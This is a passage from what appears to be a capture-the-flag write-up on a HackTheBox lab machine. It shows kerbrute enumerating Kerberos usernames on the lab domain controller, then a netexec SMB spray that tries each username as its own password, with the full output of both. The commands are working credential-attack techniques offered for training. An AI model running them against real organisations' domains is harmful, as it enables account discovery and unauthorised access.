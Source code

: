 ### Kerberos - TCP 88

An alternative way to find usernames is by bruteforcing Kerberos with something like `kerbrute`:

```
oxdf@hacky$ kerbrute userenum /opt/SecLists/Usernames/cirt-default-usernames.txt --dc dc01.manager.htb -d manager.htb

    __             __               __
   / /_____  _____/ /_  _______  __/ /____
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/

Version: v1.0.3 (9dad6e1) - 03/12/24 - Ronnie Flathers @ropnop

2024/03/12 20:43:18 >  Using KDC(s):
2024/03/12 20:43:18 >   dc01.manager.htb:88

2024/03/12 20:43:19 >  [+] VALID USERNAME:       ADMINISTRATOR@manager.htb
2024/03/12 20:43:19 >  [+] VALID USERNAME:       Administrator@manager.htb
2024/03/12 20:43:20 >  [+] VALID USERNAME:       GUEST@manager.htb
2024/03/12 20:43:20 >  [+] VALID USERNAME:       Guest@manager.htb
2024/03/12 20:43:21 >  [+] VALID USERNAME:       OPERATOR@manager.htb
2024/03/12 20:43:21 >  [+] VALID USERNAME:       Operator@manager.htb
2024/03/12 20:43:23 >  [+] VALID USERNAME:       administrator@manager.htb
2024/03/12 20:43:24 >  [+] VALID USERNAME:       guest@manager.htb
2024/03/12 20:43:25 >  [+] VALID USERNAME:       operator@manager.htb
2024/03/12 20:43:26 >  Done! Tested 828 usernames (9 valid) in 7.886 seconds

```

It finds three, administrator, guest, and operator. I can use some other wordlists and find a handful more, but the important one is operator.

## Shell as raven

### Get Operator Password

I can do a quick check to see if any of the usernames I’ve collected use their username as their password. With `netexec`, I’ll give the same list for `-u` and `-p`, and the `--no-brute` flag, which means instead of tying each username with each password, it just tries the first username with the first password, the second with the second, and so on. I like the `--continue-on-success` flag to check if there are more then one set of valid creds here:

```
oxdf@hacky$ netexec smb manager.htb -u users -p users --continue-on-success --no-brute
SMB         10.10.11.236    445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:manager.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.236    445    DC01             [-] manager.htb\administrator:administrator STATUS_LOGON_FAILURE
SMB         10.10.11.236    445    DC01             [-] manager.htb\guest:guest STATUS_LOGON_FAILURE
SMB         10.10.11.236    445    DC01             [-] manager.htb\krbtgt:krbtgt STATUS_LOGON_FAILURE
SMB         10.10.11.236    445    DC01             [-] manager.htb\dc01$:dc01$ STATUS_LOGON_FAILURE
SMB         10.10.11.236    445    DC01             [-] manager.htb\zhong:zhong STATUS_LOGON_FAILURE
SMB         10.10.11.236    445    DC01             [-] manager.htb\cheng:cheng STATUS_LOGON_FAILURE
SMB         10.10.11.236    445    DC01             [-] manager.htb\ryan:ryan STATUS_LOGON_FAILURE
SMB         10.10.11.236    445    DC01             [-] manager.htb\raven:raven STATUS_LOGON_FAILURE
```